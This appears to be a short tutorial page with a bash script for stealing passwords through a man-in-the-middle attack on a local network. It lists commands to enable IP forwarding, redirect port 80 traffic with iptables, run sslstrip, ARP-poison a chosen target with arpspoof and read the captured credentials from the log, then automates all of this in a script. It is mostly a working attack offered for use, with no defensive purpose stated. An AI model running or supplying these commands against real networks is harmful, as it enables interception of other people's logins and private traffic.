 Sniffing Password from HTTPS sites using SSL Strip

1. Enable IP forwarding

#echo 1 > /proc/sys/net/ipv4/ip_forward



2. Set Network Address Translation in Firewall(IPtables here)

#iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000



3. Confirm the rule!

#iptables -L -t nat


4. Run SSL Strip on the port 

The port is already enabled in the firewall in previous step

#sslstrip -p -l 10000


5. Start ARP Poisoning 

#arpspoof -i <interface> -t <target_host> <gateway>

6. Listen for the sslstrip log

#tail -f sslstrip.log


7. Start Browsing and Capture it.



#!/bin/bash


read -p "Target" targetIP
read -p "Gateway" gatewayIP
echo Enabling IP forward
echo
echo 1 > /proc/sys/net/ipv4/ip_forward
echo
echo Adding port to the firewall
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
echo
echo Check the rule in firewall
iptables -L -t nat
echo
echo Starting SSL Strip
sslstrip -p -l 10000&
echo
echo Start the ARP Poisonging
arpspoof -i eth0 $targetIP $gatewayIP&
echo Listen to the SSLStrip Log
tailf -f sslstrip.log

